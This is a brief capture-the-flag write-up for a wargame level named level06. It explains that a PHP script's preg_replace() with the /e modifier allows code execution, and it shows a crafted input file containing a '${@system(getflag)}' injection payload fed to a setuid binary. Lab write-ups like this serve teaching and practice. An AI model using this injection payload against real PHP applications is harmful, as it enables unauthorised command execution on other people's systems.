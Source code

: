 # Level06
## Step by step
### 1. Locate files in `level06` home directory
  ```bash
  > ls -la
  -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
  -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
  ```

---

### 2. Analyze the `level06.php` file
The `level06.php` file contains PHP code. It uses the `preg_replace()` function with the `/*/e` flag, which allows arbitrary code execution. This makes it unsafe and exploitable.

---

### 3. Exploit the `level06` executable
The `level06` executable uses the `level06.php` file to process input. To exploit this, create a malicious input file:

  ```bash
  > cat <<'hey' >/tmp/test
  > [x ${@system(getflag)}]
  > hey

  > ./level06 /tmp/test flag06
  Check flag.Here is your token : XXX
  ```
